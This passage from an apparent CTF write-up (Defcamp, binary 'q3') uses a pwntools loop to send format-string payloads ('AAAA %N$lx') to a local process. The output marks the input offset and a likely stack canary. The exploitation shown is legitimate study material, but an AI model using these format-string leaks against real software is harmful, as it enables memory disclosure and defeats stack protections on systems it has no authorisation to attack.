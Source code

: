 ### Exploiting the binary

So, let's make a script to find the offset for the input on stack, who knows we might be able to get something of interest?

```python
from pwn import *

for i in range(2,20):
	p = process("./q3")
	p.sendline("AAAA %{}$lx".format(i)) # will print the stack data in hex format
	p.recvline() # Hello
	print i,p.recvline()
	p.close()
```
Let's run it:-

```r
robin@oracle:~/CTFs/Defcamp$ python find_off.py 
[+] Starting local process './q3': pid 8323
2 AAAA 7ffff7dd18c0

[*] Stopped process './q3' (pid 8323)
[+] Starting local process './q3': pid 8325
3 AAAA 7ffff7af4154

[*] Stopped process './q3' (pid 8325)
[+] Starting local process './q3': pid 8327
4 AAAA 7ffff7fd24c0

[*] Stopped process './q3' (pid 8327)
[+] Starting local process './q3': pid 8329
5 AAAA 0

[*] Stopped process './q3' (pid 8329)
[+] Starting local process './q3': pid 8331
6 AAAA 7ffff7de59a0

[*] Stopped process './q3' (pid 8331)
[+] Starting local process './q3': pid 8333
7 AAAA 7ffff7dcfa00

[*] Stopped process './q3' (pid 8333)
[+] Starting local process './q3': pid 8335
8 AAAA 2438252041414141                                        <--- Offset 

[*] Stopped process './q3' (pid 8335)
[+] Starting local process './q3': pid 8337
9 AAAA a786c

[*] Stopped process './q3' (pid 8337)
[+] Starting local process './q3': pid 8339
10 AAAA 7fffffffde80

[*] Stopped process './q3' (pid 8339)
[+] Starting local process './q3': pid 8341
11 AAAA a17e6a7c1c53c000                                       <--- This is of interest

[*] Stopped process './q3' (pid 8341)
[+] Starting local process './q3': pid 8343
12 AAAA 555555554830

[*] Stopped process './q3' (pid 8343)
[+] Starting local process './q3': pid 8345
13 AAAA 7ffff7a05b97
```